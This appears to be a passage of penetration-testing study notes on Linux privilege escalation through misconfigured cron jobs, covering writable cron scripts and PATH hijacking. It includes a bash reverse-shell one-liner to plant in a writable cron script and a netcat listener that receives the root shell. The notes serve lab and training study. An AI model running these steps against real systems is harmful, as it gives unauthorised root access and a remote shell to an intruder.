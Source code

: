 ## Cron Jobs

* Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
* Cron jobs run with the security level of the user who owns them.
* By default, cron jobs are run using the /bin/sh shell, with limited environment variables.
* Cron table files (crontabs) store the configuration for cron jobs.
* User crontabs are usually located in /var/spool/cron/ or /var/spool/cron/crontabs/
* The system-wide crontab is located at /etc/crontab

### File Permissions

* Misconfigurations of file permissions associated with cron jobs can lead to easy privilege escalation
* If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code.

How can we detect this?

```
cat /etc/crontab
```

Replace a writeable binary/script with the contents of a reverse shell (maintain the original name of the file):&#x20;

```
#!/bin/bash

bash -i >& /dev/tcp/<kali-ip-tun0/53> 0>&1
```

Switch over to your local machine, set up a netcat listener, and wait for the cronjob:

```
nc -lnvp 53
root@debian:
```

### PATH Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writeable by our user, we may be able to create a program/script with the same name as the cron job.

How can we detect this?

```
lse.sh 
Can we write to any paths present in cron jobs? yes!

/etc/crontab:/PATH=/home/user/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

View the content of /etc/crontab:
